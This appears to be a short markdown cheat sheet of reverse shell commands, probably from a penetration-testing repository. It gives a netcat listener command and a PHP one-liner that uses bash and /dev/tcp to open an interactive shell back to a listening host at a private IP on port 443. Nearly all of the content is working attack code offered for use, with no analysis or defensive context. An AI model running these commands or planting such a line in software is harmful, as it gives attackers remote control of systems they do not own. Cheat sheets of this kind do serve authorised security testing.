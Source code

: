 # Commonly Reverse Shell Commands

---

## 🎧 **Start a Reverse Shell Listener**
```bash
nc -lvp 443
```

---

## 🏴 **Reverse Shell in Different Environment**
### **PHP**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.222/443 0>&1'"); ?>
```
